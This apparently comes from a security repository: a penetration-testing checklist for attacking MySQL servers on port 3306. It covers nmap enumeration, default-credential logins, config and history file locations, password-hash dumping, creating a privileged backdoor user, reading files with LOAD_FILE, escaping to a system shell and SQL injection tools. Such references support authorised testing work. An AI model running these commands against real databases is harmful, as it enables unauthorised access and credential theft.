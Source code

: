 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
MySQL (Port 3306)

Enumeration
    nmap -A -n -p3306 <IP Address>
    nmap -A -n -PN --script:ALL -p3306 <IP Address>
    telnet IP_Address 3306
    use test; select * from test;
    To check for other DB's -- show databases
Administration
    MySQL Network Scanner
    MySQL GUI Tools
    mysqlshow
    mysqlbinlog
Manual Checks
    Default usernames and passwords
        username: root password:
        testing
            mysql -h <Hostname> -u root
            mysql -h <Hostname> -u root
            mysql -h <Hostname> -u root@localhost
            mysql -h <Hostname>
            mysql -h <Hostname> -u ""@localhost
    Configuration Files
        Operating System
            windows
                config.ini
                my.ini
                    windows\my.ini
                    winnt\my.ini
                <InstDir>/mysql/data/
            unix
                my.cnf
                    /etc/my.cnf
                    /etc/mysql/my.cnf
                    /var/lib/mysql/my.cnf
                    ~/.my.cnf
                    /etc/my.cnf
        Command History
            ~/.mysql.history
        Log Files
            connections.log
            update.log
            common.log
        To run many sql commands at once -- mysql -u username -p < manycommands.sql
        MySQL data directory (Location specified in my.cnf)
            Parent dir = data directory
            mysql
            test
            information_schema (Key information in MySQL)
                Complete table list -- select table_schema,table_name from tables;
                Exact privileges -- select grantee, table_schema, privilege_type FROM schema_privileges;
                File privileges -- select user,file_priv from mysql.user where user='root';
                Version -- select version();
                Load a specific file -- SELECT LOAD_FILE('FILENAME');
        SSL Check
            mysql> show variables like 'have_openssl';
                If there's no rows returned at all it means the the distro itself doesn't support SSL connections and probably needs to be recompiled. If its disabled it means that the service just wasn't started with ssl and can be easily fixed.
    Privilege Escalation
        Current Level of access
            mysql>select user();
            mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
        Access passwords
            mysql> use mysql
            mysql> select user,password from user;
        Create a new user and grant him privileges
            mysql>create user test identified by 'test';
            mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
        Break into a shell
            mysql> \! cat /etc/passwd
            mysql> \! bash
SQL injection
    mysql-miner.pl
        mysql-miner.pl http://target/ expected_string database
    http://www.imperva.com/resources/adc/sql_injection_signatures_evasion.html
    http://www.justinshattuck.com/2007/01/18/mysql-injection-cheat-sheet/
References.
    Design Weaknesses
        MySQL running as root
        Exposed publicly on Internet
    http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=mysql
    http://search.securityfocus.com/swsearch?sbm=%2F&metaname=alldoc&query=mysql&x=0&y=0
